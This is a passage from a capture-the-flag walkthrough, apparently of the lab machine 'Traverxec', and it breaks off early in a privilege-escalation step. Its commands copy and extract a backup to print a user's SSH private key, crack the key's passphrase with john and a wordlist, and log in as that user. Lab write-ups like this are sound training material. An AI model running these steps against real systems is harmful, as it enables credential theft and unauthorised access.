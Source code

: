 As you can see above there are some very bad news for david as we found his
ssh private key. We copy the tarball to a temporary location, extract it, and
cat our `id_rsa` file to stdout.
```
www-data@traverxec $ cp /home/david/public_www/protected-file-area/backup-ssh-identity-files.tgz /tmp/
www-data@traverxec $ cd /tmp; tar xf backup-ssh-identity-files.tgz
www-data@traverxec $ cat home/david/.ssh/id_rsa; rm -rf backup-ssh-identity-files.tgz home/
```

Looking at our newly acquired ssh key we can see it is password protected, but
we can use john the ripper again to find the password and decrypt the key.
```
debian $ ssh2john id_david > id_david_hash
debian $ john --wordlist=rockyou.txt id_david_hash
...
debian $ ssh-keygen -p -f id_david
Enter old passphrase: hunter
Enter new passphrase (empty for no passphrase):
Enter same passphrase again:
Your identification has been saved with the new passphrase.
```

After this we just `ssh` in as `david` and get the flag.
```
debian $ ssh -i id_david david@10.10.10.165
david@traverxec $ cat user.txt
flag_will_be_here
```

## Step 4: Privilege escalation
Using the ssh connection we established above we look around the machine to see
what `david` left on it.

```
david@traverxec $ find /home/david
/home/david
/home/david/.local
/home/david/.local/share
/home/david/.local/share/nano
/home/david/.profile
/home/david/.ssh
/home/david/.ssh/authorized_keys
/home/david/.ssh/id_rsa
/home/david/.ssh/id_rsa.pub
/home/david/public_www
/home/david/public_www/index.html
/home/david/public_www/protected-file-area
/home/david/public_www/protected-file-area/backup-ssh-identity-files.tgz
/home/david/public_www/protected-file-area/.htaccess
/home/david/bin
/home/david/bin/server-stats.sh <-----
/home/david/bin/server-stats.head
/home/david/.bash_history
/home/david/.bash_logout
/home/david/.bashrc
/home/david/user.txt
```

